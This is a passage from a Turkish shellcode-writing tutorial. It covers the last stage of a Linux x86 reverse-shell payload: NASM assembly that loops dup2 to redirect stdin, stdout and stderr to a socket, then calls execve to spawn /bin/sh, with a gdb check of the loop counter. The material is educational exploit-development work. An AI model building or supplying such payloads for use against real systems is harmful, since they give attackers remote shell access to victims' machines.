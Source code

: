 ```nasm
xchg ebx, edx    ; save sockfd
```

Sonra, `dup2` 2 tane argüman alır:      
```cpp
int dup2(int oldfd, int newfd);
```

`oldfd` (ebx) istemci socket dosya tanıtıcısını (client socket file descriptor) temsil eder. `newfd`, sırasıyla stdin (0), stdout (1) ve stderr (2) için kullanılır:

```cpp
for (int i = 0; i < 3; i++) {
    // dup2(sockftd, 0) - stdin
    // dup2(sockfd, 1) - stdout
    // dup2(sockfd, 2) - stderr
    dup2(sockfd, i);
}
```

Evet, `sys_dup2` sistem çağrısı, ecx tabanlı bir döngüde üç kez çalıştırılır:

```nasm
dup:
  mov  al, 0x3f    ; sys_dup2 = 63 = 0x3f
  int  0x80        ; syscall (exec sys_dup2)
  dec  ecx         ; decrement counter
  jns  dup         ; as long as SF is not set -> jmp to dup
```

`jns` komutu, işaret (signed) bayrağı (`SF`) ayarlanmadığı sürece "dup" etiketine atlar.

Şimdi `gdb` ile kodu adım adım hata ayıklayıp, `ecx` değerini kontrol edelim:

```bash
gdb -q ./rev
```

![gdb ecx -1](./images/14/2021-10-16_13-34.png){width="80%"}       


Gördüğünüz gibi, üçüncü desteden sonra `ecx` `-1`'e eşit olan `0xffffffff`'i içeriyor ve `SF` ayarlandı ve kabuk kodu akışı devam ediyor.    

Sonuç olarak, üç çıktının tümü yeniden yönlendirilir :)

### execve ile kabuğu başlat

Kodun bu kısmı ilk kısımdaki örneğe benzer ancak yine küçük değişimle:

```nasm
; spawn /bin/sh using execve
; int execve(const char *filename, 
; char *const argv[],char *const envp[]);
mov  al, 0x0b    ; syscall: sys_execve = 11 (mov eax, 11)
inc  ecx         ; argv=0
mov  edx, ecx    ; envp=0
push edx         ; terminating NULL
push 0x68732f2f	 ; "hs//"
push 0x6e69622f	 ; "nib/"
mov  ebx, esp    ; save pointer to filename
int  0x80        ; syscall: exec sys_execve
```
